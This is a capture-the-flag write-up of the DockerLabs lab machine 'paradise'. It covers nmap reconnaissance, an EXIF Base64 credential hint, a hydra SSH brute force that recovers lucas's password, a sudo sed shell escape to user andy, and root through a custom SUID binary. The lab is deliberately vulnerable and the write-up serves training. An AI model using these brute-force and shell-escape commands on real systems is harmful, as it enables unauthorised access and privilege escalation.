


# paradise

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| paradise | kaikoperez | easy | dockerlabs |

**Summary:** The compromise started from exposed web content that allowed direct browsing of an image directory containing an edited photograph and its original counterpart, which indicated weak publication controls and poor handling of sensitive media artifacts. By validating file differences and extracting EXIF metadata, a hidden Base64 clue was recovered and decoded into a credential hint naming the `andy` account while pointing to a music reference that revealed the real target user `lucas`. A focused SSH password attack recovered valid credentials, establishing initial shell access as `lucas`. Local privilege mapping then exposed a delegated sudo rule that allowed `lucas` to run `sed` as `andy` without a password, enabling a controlled shell pivot and lateral movement into the second user context. Final escalation was achieved through host enumeration that identified a custom SUID executable at `/usr/local/bin/privileged_exec`; executing this binary produced effective UID `0`, resulting in full root control and completion of the attack chain.

## Reconnaissance

1. The machine was deployed locally and the target IP address was identified as `172.17.0.2`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/paradise]
└─$ sudo bash auto_deploy.sh paradise.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

2. A local variable was prepared for repeatable targeting during enumeration.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ ip=172.17.0.2 && url=http://$ip
```

3. Full TCP and service detection showed SSH, HTTP, and SMB services, with Apache branding indicating `Andys's House`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-24 15:32 WIB
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
|_  256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Andys's House
|_http-server-header: Apache/2.4.7 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: 3f5b3a0e5d46
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: 3f5b3a0e5d46
|_  System time: 2026-03-24T08:32:43+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
|   date: 2026-03-24T08:32:41
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.10 seconds
```

4. Directory enumeration was initiated and visual evidence confirmed an image directory worth deeper inspection.



## Initial Access

1. Two suspicious files, `image6.jpg` and `image6.jpg_original`, were compared and confirmed different by hash.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ md5sum image6.jpg image6.jpg_original
4a359b08bd5738a7f6920ed9cb136fec  image6.jpg
f22d5117ca3ea47870e6d7ecb6ad572f  image6.jpg_original
```

2. EXIF extraction from `image6.jpg` exposed a hidden comment containing a Base64 payload with credential hints.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ exiftool image6.jpg
ExifTool Version Number         : 13.36
File Name                       : image6.jpg
Directory                       : .
File Size                       : 3.8 MB
File Modification Date/Time     : 2024:07:21 11:23:50+07:00
File Access Date/Time           : 2026:03:24 15:47:23+07:00
File Inode Change Date/Time     : 2026:03:24 15:47:14+07:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Little-endian (Intel, II)
Make                            : samsung
Camera Model Name               : SM-A515F
Orientation                     : Rotate 90 CW
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Software                        : A515FXXU8HWI1
Modify Date                     : 2024:07:17 10:50:10
Y Cb Cr Positioning             : Centered
Exposure Time                   : 1/1667
F Number                        : 2.0
Exposure Program                : Program AE
ISO                             : 32
Exif Version                    : 0220
Date/Time Original              : 2024:07:17 10:50:10
Create Date                     : 2024:07:17 10:50:10
Offset Time                     : +10:00
Offset Time Original            : +10:00
Shutter Speed Value             : 1
Aperture Value                  : 2.0
Brightness Value                : 8.51
Exposure Compensation           : 0
Max Aperture Value              : 2.0
Metering Mode                   : Center-weighted average
Flash                           : No Flash
Focal Length                    : 4.6 mm
Sub Sec Time                    : 462
Sub Sec Time Original           : 462
Sub Sec Time Digitized          : 462
Color Space                     : sRGB
Exif Image Width                : 4000
Exif Image Height               : 3000
Exposure Mode                   : Auto
White Balance                   : Auto
Digital Zoom Ratio              : 1
Focal Length In 35mm Format     : 25 mm
Scene Capture Type              : Standard
Image Unique ID                 : B48LSMG00PM
Compression                     : JPEG (old-style)
Thumbnail Offset                : 850
Thumbnail Length                : 61849
Comment                         : VGhlIHBhc3N3b3JkIGZvciBhbmR5IHVzZXIgaXMgLi4uLCB5b3UgdGhpbmsgYSBvbmUgbWVtYmVy.IG9mIGdyb3VwIHRoYXQgJ3NvbiBkZSBhbW9yZXMnIHNvbmcgc3RhcnQgd2l0aCB5TC4uLi4K
Image Width                     : 4000
Image Height                    : 3000
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Time Stamp                      : 2024:07:17 07:50:10.528+07:00
MCC Data                        : Australia (505)
Aperture                        : 2.0
Image Size                      : 4000x3000
Megapixels                      : 12.0
Scale Factor To 35 mm Equivalent: 5.4
Shutter Speed                   : 1/1667
Create Date                     : 2024:07:17 10:50:10.462
Date/Time Original              : 2024:07:17 10:50:10.462+10:00
Modify Date                     : 2024:07:17 10:50:10.462+10:00
Thumbnail Image                 : (Binary data 61849 bytes, use -b option to extract)
Circle Of Confusion             : 0.006 mm
Field Of View                   : 71.5 deg
Focal Length                    : 4.6 mm (35 mm equivalent: 25.0 mm)
Hyperfocal Distance             : 1.91 m
Light Value                     : 14.3
```

3. The encoded value was tested, then split into valid fragments to recover the full clue.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ echo 'VGhlIHBhc3N3b3JkIGZvciBhbmR5IHVzZXIgaXMgLi4uLCB5b3UgdGhpbmsgYSBvbmUgbWVtYmVy.IG9mIGdyb3VwIHRoYXQgJ3NvbiBkZSBhbW9yZXMnIHNvbmcgc3RhcnQgd2l0aCB5TC4uLi4K' | base64 -d
The password for andy user is ..., you think a one memberbase64: invalid input
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ echo 'VGhlIHBhc3N3b3JkIGZvciBhbmR5IHVzZXIgaXMgLi4uLCB5b3UgdGhpbmsgYSBvbmUgbWVtYmVy' | base64 -d
The password for andy user is ..., you think a one member
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ echo 'IG9mIGdyb3VwIHRoYXQgJ3NvbiBkZSBhbW9yZXMnIHNvbmcgc3RhcnQgd2l0aCB5TC4uLi4K' | base64 -d
 of group that 'son de amores' song start with yL....
```

4. Following the hint, account focus shifted to `lucas`, and SSH brute force quickly recovered valid credentials.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 8
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-24 17:13:31
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lucas   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-24 17:14:04
```

5. SSH access as `lucas` was validated with identity and host checks.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/paradise]
└─$ ssh lucas@$ip
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
lucas@172.17.0.2's password:
$ id;whoami;hostname
uid=1001(lucas) gid=1001(lucas) groups=1001(lucas)
lucas
3f5b3a0e5d46
```

## Privilege Escalation

1. Privilege review showed `lucas` could run `/bin/sed` as `andy` without password, creating a direct path for user pivot.

```bash
$ which sudo
/usr/bin/sudo
$ sudo -l
Matching Defaults entries for lucas on 3f5b3a0e5d46:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucas may run the following commands on 3f5b3a0e5d46:
    (andy) NOPASSWD: /bin/sed
```



2. The `sed` execution primitive was used to spawn a shell as `andy`.

```bash
$ sudo -u andy sed -n '1e exec /bin/sh 1>&0' /etc/hosts
$ id;whoami;hostname
uid=1000(andy) gid=1000(andy) groups=1000(andy)
andy
3f5b3a0e5d46
```

3. SUID enumeration then revealed a custom binary running with root privileges, which granted full system compromise when executed.

```bash
$ find / -type f -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/privileged_exec
/usr/local/bin/backup.sh
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/bin/umount
/bin/ping
/bin/su
/bin/mount
/bin/ping6
$ ls -la /usr/local/bin/privileged_exec
-rwsr-xr-x 1 root root 8789 Aug 30  2024 /usr/local/bin/privileged_exec
$ /usr/local/bin/privileged_exec
Running with effective UID: 0
root@3f5b3a0e5d46:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=1000(andy) groups=0(root),1000(andy)
root
3f5b3a0e5d46
/home/lucas
total 20
drwxr-xr-x 2 lucas lucas 4096 Aug 30  2024 .
drwxr-xr-x 1 root  root  4096 Aug 30  2024 ..
-rw-r--r-- 1 lucas lucas  220 Apr  9  2014 .bash_logout
-rw-r--r-- 1 lucas lucas 3637 Apr  9  2014 .bashrc
-rw-r--r-- 1 lucas lucas  675 Apr  9  2014 .profile
```

## Attack Chain Summary
1. **Reconnaissance**: Network scanning identified SSH, HTTP, and SMB exposure, and web inspection highlighted a reachable image repository.
2. **Vulnerability Discovery**: Differential media analysis and EXIF review uncovered a hidden Base64 credential hint inside image metadata.
3. **Exploitation**: The hint guided credential testing that succeeded against SSH for user `lucas` with password `chocolate`.
4. **Internal Enumeration**: Sudo rights allowed command execution as `andy` through `sed`, enabling user level lateral movement.
5. **Privilege Escalation**: A custom SUID binary `/usr/local/bin/privileged_exec` executed with effective UID `0`, yielding root shell access.

